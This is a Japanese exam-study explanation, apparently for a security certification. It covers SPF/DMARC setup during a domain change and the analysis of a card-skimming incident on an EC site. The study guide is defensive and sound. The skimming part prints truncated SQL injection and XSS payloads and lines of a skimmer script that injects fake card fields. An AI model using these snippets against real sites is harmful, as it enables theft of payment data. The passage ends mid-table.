

多くのWebサービスでは、**パスワードリセットの本人確認手段がメールアドレスただ一つ**。したがって、

> **そのメールアドレスを受信できる者＝そのアカウントの所有者**

とみなされてしまう。ドメイン名を手放すと、**過去に登録したあらゆるサービスのアカウントが、ドメイン名の新しい所有者の手に落ちる**。

**この攻撃が現実的である理由**

| 理由                                                                   | 根拠                                                           |
| ---------------------------------------------------------------------- | -------------------------------------------------------------- |
| すべての連絡先変更を漏れなく行うのは困難                               | 本文も「**もし連絡先の変更を<br>忘れてしまうと**」と書いている |
| 第三者はドメイン名を取得すれば<br>`*@a-sha.co.jp` 宛てを全て受信できる | キャッチオール設定                                             |
| 「誰が何のサービスに登録していたか」を<br>知らなくてもよい             | **届いたメールを見れば分かる**                                 |

**+α：A社が取った対策**

N主任とEさんは「**A社ドメイン名使用の契約を継続する**」ことを情報システム部長に報告し、承認を得た。その上で Mail-Step4 の後、

- DMARCレコードを設定する
- **DMARCの受信対応を行った組織がA社ドメイン名からのメールを拒否できるようにする**
- そのために **SPFレコードを図5のように設定する**（DKIMレコードは設定しない）

という、**「ドメイン名は保持するが、メールは一切送らない」ことを宣言する**設定を行っている（→ 設問4(3)）。

> **落とし穴**：「メールを盗み見る」だけでは「続きの攻撃」に答えていない。**パスワードリセット → アカウント乗っ取り**という2段構えを書く。

---

### 設問4(3)　空欄e　A社ドメイン名のSPFレコード

> **(3)** 図5中の　**e**　に入れる適切な字句を解答群の中から選び、記号で答えよ。
>
> （本文）A社ドメイン名については、Mail-Step4の後で次のとおり、設定することにした。
> ・DMARCレコードを設定する。
> ・**DMARCの受信対応を行った組織がA社ドメイン名からのメールを拒否できるようにする。**
> そのために、A社ドメイン名について、SPFレコードを図5のように設定する。**DKIMレコードは設定しない。**
>
> （図5 SPFレコード）`v=spf1 　e　`
>
> 　解答群　　ア　`-all`　　イ　`?all`　　ウ　`block`　　エ　`deny`　　オ　`refuse`

**解答**：**ア（`-all`）**

**解説**

**SPFの修飾子（qualifier）**

| 表記       | 名称                  | 意味                               | 判定結果 |
| ---------- | --------------------- | ---------------------------------- | -------- |
| `+all`     | Pass                  | 全て許可（無意味）                 | pass     |
| **`-all`** | **Fail（hard fail）** | **リストにないIPからの送信は不正** | **fail** |
| `~all`     | SoftFail              | 不正の疑いはあるが拒否まではしない | softfail |
| `?all`     | Neutral               | **判断しない**                     | neutral  |

`block` `deny` `refuse` はSPFに存在しない（ダミー選択肢）。

**`v=spf1 -all` が意味すること**

```text
v=spf1 -all
   ↑     ↑
   │     └─ 「以上に該当しないIPは全て Fail」
   └─ 許可する送信元IPを 1つも列挙していない

→ 「このドメインからは、どのIPアドレスからもメールを送信しない」という宣言
```

これは **Null SPF Record**（RFC 7208 で推奨される、メールを送らないドメインの設定）。

**なぜ `?all` ではダメか**：`?all` は Neutral ＝「**判断しない**」。受信側は何も判定できないので、**拒否の根拠にならない**。本文の目的は「拒否できるようにする」ことなので、明確に **fail** を返す `-all` でなければならない。

**なぜ DKIMレコードを設定しないのか**：そもそもメールを送らないのだから鍵は不要。DKIMレコードがなければ**DKIMの検証は必ず失敗する**ことになり、これも望ましい。

**SPFとDMARCの連携で「拒否」に至る流れ**



**この設定の意義**：ドメイン名の契約は継続する（第三者に取られない）。加えて、**万が一誰かがそのドメインを騙ってメールを送っても、DMARC対応組織では拒否される**。**二重の防御**になっている。

> **落とし穴**：`~all`（SoftFail）を選ばない。「拒否できるようにする」という明確な目的があるので **hard fail の `-all`**。実運用でも、メールを送らないドメインには `v=spf1 -all` ＋ `p=reject` のDMARCを設定するのがベストプラクティス。

---

### 設問5(1)　下線④　表3 項番3での登録内容の見直し

> **設問5**　〔Uサービスへの移行の見直し〕について答えよ。
> **(1)** 本文中の下線④について、見直しの内容を具体的に答えよ。
>
> （N主任の説明）Mail-Step3以降で、一斉配信されたメールが届かない場合がある。メールが届くように、Mail-Step2の期間で、**④表3の項番3での登録内容を見直す**必要がある。
>
> （表3 項番3）DMARCポリシーレコード（DMARCレコード）、**SPFレコード**及びDKIMキーレコード（DKIMレコード）をSサービスに登録する。

**解答**：**SPFレコードに、Tサービスのメール送信元IPアドレスを追加する。**

**解説**

**送信元が増えたらSPFに追加する**



Eさんが作成したSPFレコードは「**Uサービスから提供された情報に基づいて作成した**」もの。つまり **Uサービスの送信元IPしか入っていない**。

ところがTサービスは、図6の仕様により、

| 仕様                                                                                                    | 影響                                    |
| ------------------------------------------------------------------------------------------------------- | --------------------------------------- |
| **From は、サービス契約者が所属する組織が保有する<br>ドメイン名を用いたメールアドレスだけを設定できる** | ヘッダーFromは<br>`@z-sha.co.jp` になる |
| Tサービスのサーバから送信する                                                                           | **送信元IPはT社のもの**                 |

このままだと、

| 認証  | 結果      | 理由                                                                       |
| ----- | --------- | -------------------------------------------------------------------------- |
| SPF   | **fail**  | 送信元IPがSPFレコードにない                                                |
| DKIM  | **fail**  | Tサービスが署名するとは書かれていない                                      |
| DMARC | 両方 fail | Mail-Step3以降（`p=quarantine`／`p=reject`）で<br>**隔離または拒否される** |

**なぜ「Mail-Step2の期間で」なのか**：Mail-Step3で `p=quarantine` に変わる**前に**直しておく必要があるから。Mail-Step1〜2の `p=none` の期間なら、認証に失敗してもメールは届く。この猶予期間のうちに設定を整えるのが、DMARCの段階的導入の目的そのもの。

**+α：SPFレコード運用の注意点**

| 論点                        | 内容                                                                                                                     |
| --------------------------- | ------------------------------------------------------------------------------------------------------------------------ |
| **DNSルックアップ10回制限** | SPFの評価で `include` `a` `mx` などによる<br>DNS問合せは**10回まで**。超えると `permerror`。<br>SaaSを増やすほど逼迫する |
| 記述方法                    | 通常は `include:_spf.example-t.com` のように<br>**サービス提供者が用意したSPFレコードをinclude**する                     |
| SPFだけでは不十分           | **転送されるとSPFは必ず失敗する**<br>（送信元IPが転送サーバのものに変わる）。<br>だからDKIMも併用する                    |

> **落とし穴**：「Tサービスを利用できるようにする」では具体性がない。**SPFレコードに／Tサービスの送信元IPアドレスを／追加する**という3要素を書く。

---

### 設問5(2)　下線⑤　メーリングリストでSPF・DKIMが両方失敗する理由

> **(2)** 図8中の下線⑤について、**SPFによる認証に失敗する理由及びDKIMによる認証に失敗する理由**をそれぞれ、**Sサービスへの登録内容とYサービスの仕様を含めて**、具体的に答えよ。
>
> （図8 N主任の説明）Mail-Step3以降にZ社の従業員が送信したメールについて
> ・ヘッダーFrom設定1とSubject設定1の組合せでは、不達の問題は起きない。
> ・ヘッダーFrom設定1とSubject設定2の組合せでは、**⑤SPFによる認証及びDKIMによる認証の両方に失敗することによって不達の問題が発生することがある。**
> ・ヘッダーFrom設定2については、Z社の従業員が送信したメールであるかどうかの判定ができないので、用いるべきではない。

**解答**

| 対象     | 解答例                                                                                         |
| -------- | ---------------------------------------------------------------------------------------------- |
| **SPF**  | **SPFレコードにYサービスの情報が登録されていないのに、<br>メールがYサービスから送られる。**    |
| **DKIM** | **DKIMレコードのhタグにSubjectが含まれているのに、<br>Yサービスでメールの Subject が変わる。** |

**解説**

**図7 メーリングリストの仕様（該当箇所）**

| 項目                      | 内容                                                                                                  |
| ------------------------- | ----------------------------------------------------------------------------------------------------- |
| 利用サービス              | メールサービス事業者**Y社のサービス（Yサービス）**                                                    |
| (1) MLのメールアドレス    | Yサービスのメールアドレス。<br>**ドメイン名はY社のドメイン名**                                        |
| (3) エンベロープFrom      | メーリングリストの管理者のメールアドレスを設定する                                                    |
| **(4) ヘッダーFrom設定1** | **メーリングリスト宛てに送信されたメールの<br>ヘッダーFromを使用する**（＝Z社従業員のアドレスのまま） |
| **(5) Subject設定2**      | メーリングリスト宛てに送信されたメールの Subject に<br>**メールの通番情報を付加する**                 |
| (8) ARC                   | **対応していない**                                                                                    |

**メーリングリストは送信ドメイン認証の天敵**



**SPFが失敗する理由の詳細**

| 論点                      | 内容                                                                         |
| ------------------------- | ---------------------------------------------------------------------------- |
| DMARCが見るドメイン       | **ヘッダーFrom** のドメイン。設定1では `z-sha.co.jp` のまま                  |
| SPFが検証するもの         | **エンベロープFromのドメイン**と**実際の送信元IP**                           |
| 実際に送信するのは        | **Yサービスのサーバ**（Y社のIPアドレス）                                     |
| **Sサービスへの登録内容** | `z-sha.co.jp` のSPFレコードには<br>**Uサービスの送信元IPしか登録していない** |
| 結果                      | 送信元IPがSPFレコードにない → **fail**                                       |

**DKIMが失敗する理由の詳細**

表6の **h タグ**：`From:To:Subject:Date:Message-ID:MIME-Version` ＝「**署名の計算対象に含めるヘッダー**」の列挙。**Subject が含まれている**。

```text
【送信時】  Subject: 製品仕様について              → この文字列を含めて署名を計算
【ML通過後】Subject: [ML:00123] 製品仕様について   ← Subject設定2で通番が付加された

→ 署名計算時のヘッダーと、受信側が検証するヘッダーが一致しない
→ DKIM署名の検証が失敗（fail）
```

**なぜヘッダーFrom設定2やSubject設定1なら問題ないのか（対比で理解する）**

| 組合せ           | ヘッダーFrom                        | Subject                  | 結果                                                           | 本文の記述                   |
| ---------------- | ----------------------------------- | ------------------------ | -------------------------------------------------------------- | ---------------------------- |
| **設定1＋設定1** | `z-sha.co.jp`<br>のまま             | **変わらない**           | SPFはfailするが<br>**DKIMがpass**<br>→ DMARCのアライメント成立 | 「不達の問題は<br>起きない」 |
| **設定1＋設定2** | `z-sha.co.jp`<br>のまま             | **通番が<br>付加される** | **SPF fail ＋ DKIM fail**<br>→ **不達**                        | 下線⑤                        |
| 設定2＋（任意）  | **MLのアドレス**<br>（Y社ドメイン） | —                        | DMARCはY社ドメインで評価される                                 | 「用いるべき<br>ではない」   |

つまり、**DKIMだけが「転送されても生き残る」認証手段**。だからSubjectを書き換えないSubject設定1なら助かる。N主任とEさんがJさんに「**ヘッダーFrom設定1とSubject設定1の組合せを用いるよう説明した**」のはこのため。

**+α①：ARC（Authenticated Received Chain）**

図7 (8)：「**ARCには、対応していない**」／注1：「メールが転送される場合でも、メールの認証結果を確認できるようにする仕組みとして、**RFC 8617に定義されている**」

ARCは、**転送する側が「自分が受け取った時点では認証がpassしていた」ことを署名付きで記録して引き継ぐ**仕組み。ARCに対応したMLなら Subject を書き換えても受信側が救済できる。だが**Yサービスは非対応**なので、この逃げ道は使えない。

**+α②：送信ドメイン認証が壊れる典型パターン（総まとめ）**

| パターン                                           | SPF                | DKIM                            | 対処                                      |
| -------------------------------------------------- | ------------------ | ------------------------------- | ----------------------------------------- |
| **単純な転送**<br>（メール転送設定）               | ❌ 送信元IPが変わる | ✅ 内容が変わら<br>なければ pass | DKIMで救われる                            |
| **メーリングリスト**<br>（件名書換え・フッタ追加） | ❌                  | ❌ 署名対象が変わる              | **ARC**、または<br>書換えをやめる         |
| **一斉配信サービス**                               | ❌ IP未登録         | ❌ 署名なし                      | **SPFにIP追加＋<br>サービス側でDKIM署名** |
| **サードパーティ送信**<br>（SaaS通知メール等）     | ❌                  | ❌                               | 同上                                      |

> **落とし穴**：設問が「**Sサービスへの登録内容とYサービスの仕様を含めて**」と明示している。
> - SPF → 「SPFレコードにYサービスの情報が**登録されていない**」（Sサービスへの登録内容）＋「メールが**Yサービスから送られる**」（Yサービスの仕様）
> - DKIM → 「DKIMレコードの**hタグにSubjectが含まれている**」（Sサービスへの登録内容）＋「**Yサービスでメールの Subject が変わる**」（Yサービスの仕様）
>
> **両方の要素を必ず書く**こと。片方だけだと減点される。

---

### 問2の学習ポイントまとめ

**ドメイン名変更プロジェクトの勘所**

| フェーズ             | やること                                                     | 本問での該当                                              |
| -------------------- | ------------------------------------------------------------ | --------------------------------------------------------- |
| 送信元の棚卸し       | 自ドメインを名乗って送信する<br>**全てのサービス**を洗い出す | Uサービス、<br>**Tサービス（漏れていた）**、<br>Yサービス |
| 段階的なポリシー強化 | `none` → `quarantine` → `reject`                             | Mail-Step1 → Step3                                        |
| レポート分析         | rua で認証漏れを検出                                         | 表3 項番5、<br>Uサービス管理Web                           |
| 旧ドメインの扱い     | **契約を継続**し、`v=spf1 -all` ＋<br>DMARC で送信不可を宣言 | 設問4(3)                                                  |

**旧ドメイン名を手放すリスク（表7）**

| 項目         | 悪用の例                                                               |
| ------------ | ---------------------------------------------------------------------- |
| Webの悪用    | 見た目が同じサイト →<br>**修正プログラムに見せかけたマルウェア配布**   |
| メールの送信 | 旧ドメイン名を送信元とする詐称メール                                   |
| メールの受信 | **社外サービスのパスワード再設定メールを受信<br>→ アカウント乗っ取り** |

---

## 問3 クレジットカード情報の漏えい（J社）

### 題材の整理

| 項目       | 内容                                                                                                                                |
| ---------- | ----------------------------------------------------------------------------------------------------------------------------------- |
| 企業       | **J社**：インテリアを扱うECサイト（**J社ECサイト**）を<br>運営する従業員200名の会社。担当者**Gさん**、上司**Rさん**                 |
| 構成       | **WebアプリP**＋Webサーバ＋DBサーバ。<br>WebアプリPの開発・保守、Webサーバ・DBサーバの<br>構築・管理・保守を**V社に委託**           |
| 決済       | **D社の決済代行サービス**。決済用ECMAScript<br>プログラムを使用した**トークン型決済**で<br>**クレジットカード情報の非保持化**を実現 |
| アプリログ | WebアプリPのアプリケーションログには、<br>**アクセス日時、画面名、アカウント名、<br>アクセス元IPアドレス**などが記録される          |

```mermaid
flowchart LR
  U["利用者"] --> C["/cart<br/>ショッピングカート"]
  C --> S["/shopping<br/>配送先・支払方法選択<br/><b>ファイルKで改ざん</b>"]
  S --> P["/payment<br/>支払手続<br/>（D社の決済ECMAScript）"]
  P --> F["/confirm<br/>注文完了"]
  S -.->|"偽フォームから GET で送信"| A["i-sha.com<br/>（攻撃者）"]
  style S fill:#faa
  style A fill:#faa
```

**重要な前提（図1 注記）**

| #     | 記述                                                                 |
| ----- | -------------------------------------------------------------------- |
| 注記1 | `/cart` などはURLのパス名を示す                                      |
| 注記2 | **`/cart` 以外へのアクセスはJ社ECサイトへのログインが必要である**    |
| 注記3 | **`/cart` 以外は直接アクセスするとトップページにリダイレクトされる** |

**時系列**

| 日時            | 出来事                                                                                                                                     |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------ |
| 6/8 18:12       | V社がPUTメソッドに関する設定変更を実施。<br>`/ec-j/layout/js/` 配下だけ、**未認証でもPUTメソッドでの<br>ファイル更新を許可**する設定にした |
| 6/9 9:00〜10:42 | V社がメンテナンスを実施（PUTメソッドを使用）                                                                                               |
| **6/11 13:12**  | **`customize.js` がファイルKに置き換えられた** ← 影響開始                                                                                  |
| 6/11〜12        | 利用者から「カード情報入力画面が2回表示される」<br>「支払方法が勝手にクレジットカード決済になる」と問合せ                                  |
| 6/13            | GさんがV社に問い合わせ                                                                                                                     |
| 6/15 21:45      | 利用者からの問合せの最後（合計32件）                                                                                                       |
| 6/16 8:05       | PUTメソッドによる更新を禁止する設定にし、<br>`customize.js` を置換え前に戻した                                                             |
| **6/16 9:00**   | **Cache Busting を実施**（ファイルKのキャッシュ破棄＋<br>`customize.js` の再読込み）← **影響終了**                                         |

---

### 設問1　空欄a〜e　アクセスログの読み取り

> **設問1**　本文中の　**a**　〜　**e**　に入れる適切な行番号又は字句を答えよ。
>
> （表2 Webサーバのアクセスログ）
>
> | 行番号 | メソッド | リクエストURI | ステータスコード |
> | ---: | --- | --- | ---: |
> | 1 | GET | `/products/list?page=4&category_id=1` | 200 |
> | 2 | GET | `/login?id=hoge&pw='UNION select 1 FROM…` | 200 |
> | 3 | POST | `/mypage/userinfo` | 200 |
> | 4 | POST | `/mypage/change` | 200 |
> | 5 | GET | `/cart?add="><script>document.getElementById(…` | 200 |
> | 6 | GET | `/products/list?category=green's sofa` | 200 |
> | 7 | PUT | `/shopping` | 405 |
> | 8 | GET | `/cart` | 200 |
> | 9 | POST | `/payment` | 200 |
> | 10 | PUT | `/ec-j/layout/js/customize.js` | 204 |
>
> **Gさん**：表2の　**a**　行目が　**b**　脆弱性を狙った攻撃だと思いますが、そういった攻撃であれば偽フォームの表示が可能です。さらに　**b**　脆弱性が　**c**　型であれば、1回の攻撃で多数の利用者に対して偽フォームの表示が可能です。
> **Rさん**：それとは別に、表2の　**d**　行目は　**e**　脆弱性を狙った攻撃の痕跡だと思うが、仮にその脆弱性が存在した場合に、偽フォームの表示は可能なのか。
> **Gさん**：WebアプリPが、DBサーバに格納している情報を基にWebページを動的に生成していれば可能かもしれません。

**解答**

| 空欄 | 解答                             |
| ---- | -------------------------------- |
| a    | **5**                            |
| b    | **クロスサイトスクリプティング** |
| c    | **格納**                         |
| d    | **2**                            |
| e    | **SQLインジェクション**          |

**解説**

**a・b：5行目 ＝ XSS**

```text
GET /cart?add="><script>document.getElementById(…
                 ↑
        属性値を閉じて（"）タグを閉じて（>）、
        <script> タグを注入している典型的なXSSペイロード
```

`"` で属性値を抜け、`>` でタグを閉じ、`<script>` を差し込む。**クロスサイトスクリプティング（XSS）**を狙った攻撃。

**c：格納（型）**

| XSSの型              | 攻撃1回あたりの影響範囲                                                 |
| -------------------- | ----------------------------------------------------------------------- |
| 反射型（Reflected）  | **罠リンクを踏んだ1人だけ**。<br>多数を狙うには多数に踏ませる必要がある |
| **格納型（Stored）** | **サーバに保存され、そのページを見る全員**に影響 ← ★                    |
| DOM based            | 反射型と同様、踏んだ人だけ                                              |

会話文が「**1回の攻撃で多数の利用者に対して**偽フォームの表示が可能」と言っているので、**格納**型。

**d・e：2行目 ＝ SQLインジェクション**

```text
GET /login?id=hoge&pw='UNION select 1 FROM…
                       ↑
        シングルクォートでSQL文字列を閉じ、
        UNION SELECT で別のクエリを結合
```

**UNION SELECT 攻撃**（UNIONベースのSQLインジェクション）の典型。

**Gさんの最後の発言の意味**

「WebアプリPが、DBサーバに格納している情報を基にWebページを**動的に生成**していれば可能かもしれません」

→ SQLインジェクションで**DBの中身を書き換える**（UPDATE / INSERT）ことができれば、その値を使って生成されるHTMLに**スクリプトを混入させられる**。つまり **SQLインジェクション経由の格納型XSS（Second-order XSS）**。

```mermaid
flowchart LR
  A["攻撃者"] -->|"① SQLインジェクションで<br/>DBにスクリプトを書き込む"| DB[("DBサーバ")]
  DB -->|"② WebアプリPが動的にHTMLを生成"| H["HTMLにスクリプトが混入"]
  H -->|"③ 閲覧した全利用者で実行"| V["偽フォームの表示"]
  style DB fill:#aaf
  style V fill:#faa
```

**他の行を選ばない理由**

| 行     | 内容                                          | 判定                                                               |
| ------ | --------------------------------------------- | ------------------------------------------------------------------ |
| 1      | 正常な商品一覧                                | —                                                                  |
| 3・4   | POST /mypage/…                                | 正常なマイページ操作                                               |
| **6**  | `category=green's sofa`                       | **アポストロフィを含む正常な商品名**<br>（SQLiと紛らわしいダミー） |
| 7      | PUT /shopping → **405**                       | Method Not Allowed＝**拒否されている**<br>（攻撃の試行だが失敗）   |
| 8・9   | GET /cart、POST /payment                      | 正常な購入フロー                                                   |
| **10** | **PUT /ec-j/layout/js/customize.js<br>→ 204** | **204 No Content ＝成功**。<br>**これが実際の改ざん**              |

**10行目こそが真犯人**。Rさんが「その他、表2の10行目のPUTメソッドでファイルが更新されている点も気になる」と別途言及している。

**ステータスコードで成否を判別する**

| コード                        | 意味                               | 本問での現れ方                       |
| ----------------------------- | ---------------------------------- | ------------------------------------ |
| 200 OK                        | 成功（本文あり）                   | 1〜6, 8, 9行目                       |
| **204 No Content**            | **成功（本文なし）**               | **10行目：PUTによる更新が成功**      |
| **405 Method<br>Not Allowed** | **そのメソッドは許可されていない** | **7行目：`/shopping` へのPUTは失敗** |

7行目（`/shopping` へのPUT：405）と10行目（`/ec-j/layout/js/` へのPUT：204）の差が、**V社が `/ec-j/layout/js/` 配下だけPUTを許可していた**という図4の報告と完全に符合する。

> **落とし穴**：6行目（`green's sofa`）をSQLインジェクションと誤判定しない。これは**商品名にアポストロフィが含まれているだけの正常なリクエスト**。SQLインジェクションは `' UNION select` のように**SQL構文が続いている**ことで判別する。

---

### 設問2(1)　下線①　書換え後の画面全体の図示

> **設問2**　〔偽フォーム表示の原因の調査と対策〕について答えよ。
> **(1)** 本文中の下線①について、**書換え後の画面全体を図示せよ**。
>
> （本文）**①配送先・支払方法選択画面でファイルKが読み込まれており、HTMLの一部が書き換えられていた。**

**解答（画面イメージ）**

```text
┌──────────────────────────────────┐
│           配送先・支払方法選択                   │
│                                                  │
│  配送先                                          │
│  ┌────────────────────────┬───┐  │
│  │                                        │ ▽ │  │
│  └────────────────────────┴───┘  │
│                                                  │
│  お支払方法                                      │
│                                                  │
│  カード番号      ┌──────────────┐        │
│                  └──────────────┘        │
│  有効期限        ┌────┐月/┌────┐年     │
│                  └────┘    └────┘       │
│  名義            ┌──────────────┐        │
│                  └──────────────┘        │
│  セキュリティコード ┌────────┐             │
│                     └────────┘             │
│                                                  │
│             ┌──────┐  ┌──────┐        │
│             │  戻る  │  │  次へ  │        │
│             └──────┘  └──────┘        │
└──────────────────────────────────┘
```

**解説**

**本文の根拠**

図2 ファイルK（整形後）の2〜3行目：

```javascript
2:  let elem = document.querySelector("#shopping-form > div > div > div.order_payment > div.radio");
3:  elem.innerHTML='<p>カード番号<input type="text" id="get_number" /></p>
                    <p>有効期限<input type="text" id="get_exp_month" />月/
                               <input type="text" id="get_exp_year" />年</p>
                    <p>名義<input type="text" id="get_name" /></p>
                    <p>セキュリティコード<input type="text" id="get_code" /></p>
                    <input type="hidden" name="order[Payment]" value="1" />';
```

図3 配送先・支払方法選択画面のHTMLソース（該当部分）：

```html
<div class="order_payment">
<div><h2>お支払方法</h2></div>
<div class="radio">                                   ← ★ ここの中身が置き換えられる
<input type="radio" id="Payment_1" name="order[Payment]" … value="1" checked />
<label for="Payment_1"><span>クレジットカード決済</span></label>
<input type="radio" id="Payment_2" name="order[Payment]" … value="2" />
<label for="Payment_2"><span>銀行振込</span></label>
</div>
（省略）
<button type="submit" class="blockBtn">次へ</button>
</form>
```

**描くべきポイント（採点の核心）**

| 要素                                                   | 変化                           | 理由                                                              |
| ------------------------------------------------------ | ------------------------------ | ----------------------------------------------------------------- |
| 画面名                                                 | 「配送先・支払方法選択」のまま | 書換え対象外                                                      |
| 配送先（プルダウン）                                   | **そのまま残る**               | `div.order_payment` の外                                          |
| **「お支払方法」の見出し**                             | **残る**                       | `<div><h2>お支払方法</h2></div>` は<br>`div.radio` の**外**にある |
| **ラジオボタン**<br>（クレジットカード決済／銀行振込） | **消える**                     | `div.radio` の**中身**が置換される                                |
| **カード情報入力欄4つ**                                | **新たに出現**                 | カード番号／有効期限（月・年）／<br>名義／セキュリティコード      |
| 戻る／次へボタン                                       | **そのまま残る**               | `</div>` の外                                                     |

**querySelectorが指す範囲を正確に読む**

```text
#shopping-form > div > div > div.order_payment > div.radio
                                                   ↑
                          置き換えられるのは <div class="radio"> の中身だけ
```

`innerHTML` は**その要素の中身だけ**を置き換える。

```mermaid
flowchart TD
  OP["div.order_payment"] --> H["div > h2「お支払方法」<br/><b>残る</b>"]
  OP --> R["div.radio<br/><b>この中身だけが置換される</b>"]
  R --> B1["【改ざん前】<br/>◉ クレジットカード決済<br/>○ 銀行振込"]
  R --> B2["【改ざん後】<br/>カード番号／有効期限／名義／<br/>セキュリティコード の入力欄<br/>＋ hidden の order[Payment]=1"]
  style B1 fill:#aaf
  style B2 fill:#faa
```

**利用者が「カード情報入力画面が2回表示される」と感じた理由**

```mermaid
flowchart LR
  A["/shopping 配送先・支払方法選択<br/><b>偽フォーム（1回目）</b>"] --> B["/payment 支払手続<br/><b>本物のフォーム（2回目）</b><br/>D社の決済ECMAScript"]
  style A fill:#faa
  style B fill:#aaf
```

本来は `/payment` でしかカード情報を入力しない。ところが改ざんによって `/shopping` でも入力欄が出るようになったため、**2回入力を求められる**という現象になった。

> **落とし穴**：ラジオボタンを残さない。`div.radio` の**中身が丸ごと置換される**ので、支払方法の選択肢は消える。逆に「お支払方法」の見出しと「配送先」「戻る／次へ」は消さない。**querySelectorのセレクタを一階層ずつ追う**ことが必要。

---

### 設問2(2)　下線②　固定されたパラメータ名とその値

> **(2)** 本文中の下線②について、**パラメータ名とその値**を答えよ。
>
> （本文）この書換えによって、**②配送先・支払方法選択画面から支払手続画面への画面遷移の処理で利用しているパラメータの値が変更され、支払方法がクレジットカード決済に固定されていた。**

**解答**

| 項目             | 解答               |
| ---------------- | ------------------ |
| **パラメータ名** | **order[Payment]** |
| **値**           | **1**              |

**解説**

**図2 の3行目末尾**

```html
<input type="hidden" name="order[Payment]" value="1" />
```

**図3 の元のHTML**

```html
<input type="radio" id="Payment_1" name="order[Payment]" … value="1" checked />
<label for="Payment_1"><span>クレジットカード決済</span></label>
<input type="radio" id="Payment_2" name="order[Payment]" … value="2" />
<label for="Payment_2"><span>銀行振込</span></label>
```

| value | 対応する支払方法（図3のlabelから判断） |
| ----- | -------------------------------------- |
| **1** | **クレジットカード決済**               |
| 2     | 銀行振込                               |

元はラジオボタンで利用者が選べたが、ファイルKによって **`type="hidden"` の固定値 `1`** に置き換えられた。`type="hidden"` は画面に表示されないが、**フォーム送信時には値が送られる**。

```mermaid
flowchart LR
  subgraph BEFORE["【改ざん前】"]
    R1["◉ クレジットカード決済 (value=1)"] --> CH["利用者が選択できる"]
    R2["○ 銀行振込 (value=2)"] --> CH
  end
  subgraph AFTER["【改ざん後】"]
    H["input type=hidden<br/>name=order[Payment] value=1<br/>（画面に見えない）"] --> FX["<b>常にクレジットカード決済</b>"]
  end
  style FX fill:#faa
```

**なぜ攻撃者はこうしたのか（攻撃の設計意図）**

攻撃者の目的は**カード情報を盗むこと**。銀行振込を選ばれるとカード情報が入力されない。そこで、

| 手口                                            | 効果                                         |
| ----------------------------------------------- | -------------------------------------------- |
